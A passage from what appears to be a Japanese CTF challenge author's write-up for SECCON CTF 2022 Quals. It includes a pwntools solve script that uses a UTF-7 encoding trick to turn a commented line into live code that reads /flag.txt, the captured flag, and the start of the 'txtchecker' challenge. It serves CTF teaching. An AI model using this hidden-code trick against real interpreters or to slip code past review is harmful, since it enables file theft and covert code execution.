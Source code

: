 ```python
import os
import pwn

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
""".lstrip()

payload += "__EOF__"

io.sendlineafter(b"__EOF__):", payload.encode())

print(io.recvall().decode())
```

### Flag

```
SECCON{UTF7_is_hack3r_friend1y_encoding}
```

## [misc] txtchecker

- 23 teams solved / 193 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/misc/txtchecker

Description:

> I'm creating a text file checker. It still in the process of implementation...
>
> ```
> sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@txtchecker.seccon.games -p 2022
> ```

### Overview

ソースコードは以下のbashスクリプトです:
```bash
#!/bin/bash

read -p "Input a file path: " filepath
file $filepath 2>/dev/null | grep -q "ASCII text" 2>/dev/null

# TODO: print the result the above command.
#   $? == 0 -> It's a text file.
#   $? != 0 -> It's not a text file.
exit 0
```
意味のある行はたったの3行！


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。